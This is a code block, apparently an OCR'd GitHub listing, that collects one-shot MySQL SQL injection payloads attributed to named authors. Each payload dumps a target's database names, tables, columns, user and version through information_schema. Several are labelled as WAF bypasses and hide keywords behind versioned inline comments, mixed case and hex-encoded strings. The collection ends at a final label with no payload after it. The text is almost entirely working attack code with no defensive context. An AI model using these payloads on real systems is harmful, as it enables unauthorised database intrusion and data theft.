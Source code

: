 ```sql
(select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@))

-- M@dBl00d
(Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))

-- Zen
+make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)

-- Zen WAF
(/*!12345sELecT*/(@)from(/*!12345sELecT*/(@:=0x00),(/*!12345sELecT*/(@)from(`InFoRMAtiON_sCHeMa`.`ColUMNs`)where(`TAblE_sCHemA`=DatAbAsE/*data*/())and(@)in(@:=CoNCat%0a(@,0x3c62723e5461626c6520466f756e64203a20,TaBLe_nAMe,0x3a3a,column_name))))a)

-- ~tr0jAn WAF
+concat/*!(unhex(hex(concat/*!(0x3c2f6469763e3c2f696d673e3c2f613e3c2f703e3c2f7469746c653e,0x223e,0x273e,0x3c62723e3c62723e,unhex(hex(concat/*!(0x3c63656e7465723e3c666f6e7420636f6c6f723d7265642073697a653d343e3c623e3a3a207e7472306a416e2a2044756d7020496e204f6e652053686f74205175657279203c666f6e7420636f6c6f723d626c75653e28574146204279706173736564203a2d20207620312e30293c2f666f6e743e203c2f666f6e743e3c2f63656e7465723e3c2f623e))),0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d626c75653e4d7953514c2056657273696f6e203a3a20,version(),0x7e20,@@version_comment,0x3c62723e5072696d617279204461746162617365203a3a20,@d:=database(),0x3c62723e44617461626173652055736572203a3a20,user(),(/*!12345selEcT*/(@x)/*!from*/(/*!12345selEcT*/(@x:=0x00),(@r:=0),(@running_number:=0),(@tbl:=0x00),(/*!12345selEcT*/(0) from(information_schema./**/columns)where(table_schema=database()) and(0x00)in(@x:=Concat/*!(@x, 0x3c62723e, if( (@tbl!=table_name), Concat/*!(0x3c666f6e7420636f6c6f723d707572706c652073697a653d333e,0x3c62723e,0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@r:=@r%2b1, 2, 0x30),0x2e203c2f666f6e743e,@tbl:=table_name,0x203c666f6e7420636f6c6f723d677265656e3e3a3a204461746162617365203a3a203c666f6e7420636f6c6f723d626c61636b3e28,database(),0x293c2f666f6e743e3c2f666f6e743e,0x3c2f666f6e743e,0x3c62723e), 0x00),0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@running_number:=@running_number%2b1,3,0x30),0x2e20,0x3c2f666f6e743e,0x3c666f6e7420636f6c6f723d7265643e,column_name,0x3c2f666f6e743e))))x)))))*/+

-- ~tr0jAn Benchmark
+concat(0x3c666f6e7420636f6c6f723d7265643e3c62723e3c62723e7e7472306a416e2a203a3a3c666f6e7420636f6c6f723d626c75653e20,version(),0x3c62723e546f74616c204e756d626572204f6620446174616261736573203a3a20,(select count(*) from information_schema.schemata),0x3c2f666f6e743e3c2f666f6e743e,0x202d2d203a2d20,concat(@sc:=0x00,@scc:=0x00,@r:=0,benchmark(@a:=(select count(*) from information_schema.schemata),@scc:=concat(@scc,0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d7265643e,LPAD(@r:=@r%2b1,3,0x30),0x2e20,(Select concat(0x3c623e,@sc:=schema_name,0x3c2f623e) from information_schema.schemata where schema_name>@sc order by schema_name limit 1),0x202028204e756d626572204f66205461626c657320496e204461746162617365203a3a20,(select count(*) from information_Schema.tables where table_schema=@sc),0x29,0x3c2f666f6e743e,0x202e2e2e20 ,@t:=0x00,@tt:=0x00,@tr:=0,benchmark((select count(*) from information_Schema.tables where table_schema=@sc),@tt:=concat(@tt,0x3c62723e,0x3c666f6e7420636f6c6f723d677265656e3e,LPAD(@tr:=@tr%2b1,3,0x30),0x2e20,(select concat(0x3c623e,@t:=table_name,0x3c2f623e) from information_Schema.tables where table_schema=@sc and table_name>@t order by table_name limit 1),0x203a20284e756d626572204f6620436f6c756d6e7320496e207461626c65203a3a20,(select count(*) from information_Schema.columns where table_name=@t),0x29,0x3c2f666f6e743e,0x202d2d3a20,@c:=0x00,@cc:=0x00,@cr:=0,benchmark((Select count(*) from information_schema.columns where table_schema=@sc and table_name=@t),@cc:=concat(@cc,0x3c62723e,0x3c666f6e7420636f6c6f723d707572706c653e,LPAD(@cr:=@cr%2b1,3,0x30),0x2e20,(Select (@c:=column_name) from information_schema.columns where table_schema=@sc and table_name=@t and column_name>@c order by column_name LIMIT 1),0x3c2f666f6e743e)),@cc,0x3c62723e)),@tt)),@scc),0x3c62723e3c62723e,0x3c62723e3c62723e)+

-- N1Z4M WAF
```